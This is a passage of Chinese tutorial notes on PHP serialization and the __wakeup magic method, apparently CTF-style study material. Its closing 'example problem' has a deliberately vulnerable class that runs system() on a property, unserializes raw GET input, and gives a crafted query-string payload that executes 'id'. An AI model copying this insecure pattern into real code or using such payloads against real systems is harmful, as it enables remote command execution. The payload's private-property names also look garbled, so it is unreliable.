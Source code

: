   ```php
  echo serialize($user);//serialize()只序列化sleep返回的数组
  
  O:4:"User":2:{s:8:"username";s:1:"a";s:8:"nickname";s:1:"b";}
  ```

  

* __wakeup()，执行unserialize()时，先会调用这个函数

  ```php
  //__wakeup()在反序列化unserialize()之前
  //__destruct()在反序列化unserialize()之后
  <?php
  highlight_file(__FILE__);
  error_reporting(0);
  class User {
      const SITE = 'uusama';
      public $username;
      public $nickname;
      private $password;
      private $order;
      public function __wakeup() {
          $this->password = $this->username;
      }
  }
  $user_ser = 'O:4:"User":2:{s:8:"username";s:1:"a";s:8:"nickname";s:1:"b";}';
  var_dump(unserialize($user_ser));
  
  object(User)#1 (4) {
    ["username"]=>
    string(1) "a"
    ["nickname"]=>
    string(1) "b"
    ["password":"User":private]=>
    string(1) "a"
    ["order":"User":private]=>
    NULL
  }
  
  /*例题*/
  
  <?php
  class User {
      const SITE = 'uusama';
      public $username;
      public $nickname;
      private $password;
      private $order;
      public function __wakeup() {
          system($this->username);
      }
  }
  $user_ser = $_GET['benben'];
  unserialize($user_ser);
  
  ?benben=O:4:"User":4:{s:8:"username";s:2:"id";s:8:"nickname";N;s:14:" User password";N;s:11:" User order";N;}
  ```
